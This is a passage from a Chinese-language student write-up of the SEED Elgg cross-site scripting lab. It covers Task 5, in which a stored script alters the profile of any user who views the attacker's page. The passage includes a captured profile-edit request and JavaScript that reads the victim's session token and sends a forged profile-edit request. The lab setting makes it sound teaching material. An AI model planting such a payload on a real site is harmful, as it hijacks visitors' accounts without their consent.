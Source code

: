 A2: 此时再次执行攻击不能成功，原因是代码变成了文本失去了执行能力。重复上述实验可以说明这个结论。

![image](https://user-images.githubusercontent.com/64548919/206895425-36e7549c-73a0-4ad1-9ec1-c81a06866848.png)


![image](https://user-images.githubusercontent.com/64548919/206895553-1e0dc152-023b-4053-89e4-7f654b97d621.png)

使用Boby多次刷新Samy的Profile页面，发现已经不能自动添加为好友。

![image](https://user-images.githubusercontent.com/64548919/206895586-739c6b7d-5c47-4b86-ba9e-159d0e184f77.png)

### 3.6 Task 5: Modifying the Victim’s Profile

进入profile编辑页面，使用F12查看sendurl，为：

```
http://www.xsslabelgg.com/action/profile/edit
```

![image](https://user-images.githubusercontent.com/64548919/206896787-969c4edc-4c08-4293-b833-723d35d60caf.png)

查看该请求体，可以发现guid为47：

![image](https://user-images.githubusercontent.com/64548919/206896885-176f7e04-ed6a-4070-8828-31c9b8fe35d5.png)

查看请求体的body部分，内容为：

```
__elgg_token=VGG2cD-3FAB1ICHge3GbLA&__elgg_ts=1670780719&name=Samy&description=%3Cp%3E123%3C%2Fp%3E%0D%0A&accesslevel%5Bdescription%5D=2&briefdescription=345&accesslevel%5Bbriefdescription%5D=2&location=567&accesslevel%5Blocation%5D=2&interests=789&accesslevel%5Binterests%5D=2&skills=321&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=987&accesslevel%5Bphone%5D=2&mobile=135&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=111&accesslevel%5Btwitter%5D=2&guid=47
```

![image](https://user-images.githubusercontent.com/64548919/206896940-816d297a-3c31-4521-80b7-9b41bdd4290c.png)

因此我考虑的js代码即为：

```JavaScript
window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
    var content = token+ts+"&name="+userName+"&description=&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=11910104@mail.sustech.edu.cn&accesslevel%5Bcontactemail%5D=2&phone=114514&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=www.bilibili.com&accesslevel%5Bwebsite%5D=2&twitter=1919810&accesslevel%5Btwitter%5D=2&guid="+guid;
    //Construct the content of your url.
    var samyGuid=47; //FILL IN
    if(elgg.session.user.guid!=samyGuid) ➀
    {
    	//Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
```